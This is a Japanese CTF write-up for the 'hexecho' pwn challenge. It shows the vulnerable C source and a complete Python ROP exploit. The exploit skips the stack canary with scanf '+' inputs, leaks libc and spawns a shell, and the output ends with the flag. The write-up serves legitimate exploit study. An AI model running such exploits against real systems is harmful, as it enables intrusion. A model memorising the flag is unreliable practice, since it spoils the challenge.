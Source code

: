# hexecho:Easy:179pts
Stack canary makes me feel more secure.  

[hexecho.tar.gz](hexecho.tar.gz)  

`nc 34.170.146.252 51786`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 51786
Size: 3
Data (hex): aabbcc
Received: aa bb cc
```
`Size`と`Data (hex)`を受け取り、受け取った値を`Received`としてHexで返している。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

int get_size() {
  int size = 0;
  scanf("%d%*c", &size);
  return size;
}

void get_hex(char *buf, unsigned size) {
  for (unsigned i = 0; i < size; i++)
    scanf("%02hhx", buf + i);
}

void hexecho() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data (hex): ");
  get_hex(buf, size);

  // Show data
  printf("Received: ");
  for (int i = 0; i < size; i++)
    printf("%02hhx ", (unsigned char)buf[i]);
  putchar('\n');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  hexecho();
  return 0;
}
```
`Size`の制限が無いため、BOFし放題である。  
セキュリティ機構をチェックする。  
```bash
$ checksec --file=./hexecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   43 Symbols      N/A     0               0               ./hexecho
```
canaryがあるためリークを考えるが、読み取れそうな場所はない。  
ここで`scanf`に`+`を渡した際に、その個所のバッファには何も書き込まれず元の値が保持されるという挙動を思い出す。  
これでcanaryをスキップし、それ以降のリターンアドレスのみ書き換えてROPしてやればよさそうだ。  
さらに、`Size`を使い果たすより前にHexでない文字で入力を終了すると、それ以降のバッファが流れ出ることもわかる。  
```bash
$ ./hexecho
Size: 20
Data (hex): aabbccs
Received: aa bb cc 00 00 00 00 00 0c 00 00 00 00 00 00 00 40 00 00 00
```
これでスタック上にあるlibcのアドレスもリークできそうだ。  
うまくオフセットを調整し、`main`にもう一度飛ばすことで`__`からリークしたアドレスでROPする(アライメントに注意)。  
以下のexploit.pyで行う。  
```python
from ptrlib import *

elf = ELF("./hexecho")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

# sock = Process("./hexecho")
sock = Socket("nc 34.170.146.252 51786")
# sock.debug = True


def hexecho(n):
    hexstr = hex(n)[2:].zfill(16)
    return "".join([hexstr[i : i + 2] for i in range(0, len(hexstr), 2)][::-1]).encode()


payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(elf.gadget("ret;")))
payload += hexecho(elf.symbol("main"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)

leak = int("".join((sock.recvline()[0x562:0x573]).decode().split()[::-1]), 16)
logger.info("__libc_start_main+128 = " + hex(leak))
libc.base = leak - libc.symbol("__libc_start_main") - 0x80

payload = b"A" * 0x210
payload += b"+" * 0x9
payload += b"B" * 0xF
payload += hexecho(next(libc.gadget("pop rdi; ret;")))
payload += hexecho(next(libc.search("/bin/sh")))
payload += hexecho(next(libc.gadget("ret;")))
payload += hexecho(libc.symbol("system"))
payload += b"s"
sock.sendlineafter("Size: ", 0x1000)
sock.sendlineafter("Data (hex): ", payload)
sock.recvline()

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to 34.170.146.252:51786
[+] <module>: __libc_start_main+128 = 0x7f5d61c3ce40
[+] base: New base address: 0x7f5d61c13000
[ptrlib]$ ls
run
[ptrlib]$ ls /
app
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[ptrlib]$ cat /flag.txt
Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}
```
flagが得られた。  

## Alpaca{4Lw4y5_cH3cK_1f_a_fuNc71on_f4iL3d}